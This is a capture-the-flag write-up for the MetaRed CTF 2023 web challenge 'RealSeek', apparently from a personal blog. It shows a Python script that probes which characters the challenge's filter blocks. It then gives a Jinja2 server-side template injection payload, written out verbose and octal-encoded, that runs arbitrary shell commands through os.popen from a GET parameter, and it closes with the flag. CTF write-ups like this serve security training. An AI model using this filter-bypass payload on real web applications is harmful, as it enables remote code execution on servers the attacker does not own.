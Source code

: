 ```yaml
---
title: MetaRed CTF 2023 - RealSeek
date: Thu Oct 26 04:02:03 PM +04 2023
categories: [Writeup]
tags: [ctf,metaredctf,metaredctf2023,web,python,jwt]
---
```


## Description

Author: <strong>puck</strong>

After I got hacked, I learned to code securely. I added so many filters that no hacker can get through me now

[Challenge](https://seek.ctf.cert.unlp.edu.ar)
[Mirror](https://seek-mirror.mirror-ctf.cert.unlp.edu.ar/)

## Solution

![realseek-1](/assets/images/metared/2023/realseek-1.png)

Upgraded version of previous challenge `Babyseek`

Identify blocked chars: 

```py
import requests, string, base64

URL = 'https://seek.ctf.cert.unlp.edu.ar/'
for c in string.printable:
    resp = requests.post(URL, json={"encoded": base64.b64encode(c.encode()).decode()})
    print(resp.text)
    if 'ILLEGAL CHARACTER' in resp.text:
        print(f"{c} blocked")
```

> Blocked Chars: ```0, 2, 4, 5, 6, 8, 9, f, j, k, v, w, x, y, z, A, B, C, D, E, G, H, J, K, L, M, N, O, P, Q, R, T, U, V, W, X, Y, Z, !, #, %, &, ', +, ,, -, ., /, :, ;, <, =, >, ?, @, ^, _, `, |, ~```
{: .prompt-info }

Since they are many characters blocked we have to get smart about our payload. From my observation I could use `request` within the boundaries and after that I built the payload.

Reference: [Jinja2 SSTI - without several chars](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#without-several-chars)


Verbose Payload: 
{% raw %}
```
{{
    request["application"]
    ["__globals__"]   
    ["__builtins__"]  
    ["__import__"]  
    ("os")["popen"] 
    (request["args"]["c"])["read"]()
}}
```

Encoded Payload: 

```
{{request["application"]["\137\137globals\137\137"]["\137\137builtins\137\137"]["\137\137import\137\137"]("os")["popen"](request["args"]["c"])["read"]()}}
```
{% endraw %}

> `\137` is `_`, but in Octal code.
{: .prompt-info }

> For the payload to work `request["args"]["c"]` is required, meaning we should include `GET param "c"` as command, like `ls` or `cat flag`. Since spaces are restricted I couldnt find other workaround.
{: .prompt-warning }

Enumerate:

![realseek-2](/assets/images/metared/2023/realseek-2.png)

Profit:

![realseek-3](/assets/images/metared/2023/realseek-3.png)

> Flag: FLAG{U_4R_TH#_R34L_BYP4SS3R!}
{: .prompt-tip }
